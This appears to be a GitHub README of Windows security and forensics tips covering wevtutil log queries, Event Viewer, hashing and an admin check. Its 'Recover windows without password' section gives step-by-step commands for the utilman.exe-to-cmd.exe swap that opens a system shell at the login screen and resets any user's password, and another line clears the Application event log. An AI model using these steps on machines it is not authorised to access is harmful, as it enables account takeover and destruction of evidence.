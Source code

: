 # security
cool tricks to securing and some how a little forensics.keep in mind that win+x in windows os opens a menu bar that you can control so many other options too.

<ul>
<li>Wevtutil</li>
<li>Event Viewer</li>
<li>Bypass windows Login</li>
<li>Calculate hash of a File</li>
<li>Check if you are local Administrator</li>
</ul>

# Wevtutil
Enables you to retrieve information about event logs and publishers in powershell,cmd, and also git bash.

<ul>
<li>To see last 50 login in our device:

    wevtutil qe Security /c:50 /rd:true /f:text
  
<p>you should be administrator to run this command</p>
</li>
<li>Find the last 20 startup events in the System log:

    wevtutil query-events System /count:20 /rd:true /format:text /q:"Event[System[(EventID=12)]]"

</li>
<li>Display the status of the Application log:

    wevtutil gli Application

</li>
<li>Clear all the events from the Application log:

    wevtutil clear-log Application
    
</li>
</ul>

# Event Viewer
Event Viewer is a component of Microsoft's Windows operating system that lets administrators and users view the event logs on a local or remote machine.just type:

    eventvwr

# Recover windows without password
as you may know you can open accounts on any windows machine without any passwords by just a windwos bootable usb .this is why you should be aware of physical security.when installation go repair this pc and open command prompt and type this command.

    move c:\windows\system32\utilman.exe c:\ 

<p>c is directory that windows is installed,and maybe it is different in your pc.and then this command:</p>

    copy c:\windows\system32\cmd.exe c:\windows\system32\utilman.exe


<p>after all:</p>


    wpeutil reboot

<p>after the reboot  click on ease of use,CMD will opens then type:</p>

    net user

<p>after you saw users then the user you want to login with:</p>

    net user <desired user> <your password>

<p> you are in windows now!</p>

# Calculate hash Calculate hash of a File
to calculate hash (sha1.sha256,md5) of a given File just enter the path to that file and you have the hash.

    .\hash(md5).ps1

or 

    .\hash(sha1).ps1

or

    .\hash(sha256).ps1


# Check if you are local Administrator
to check if you are local Administrator just run this script

    check_admin.bat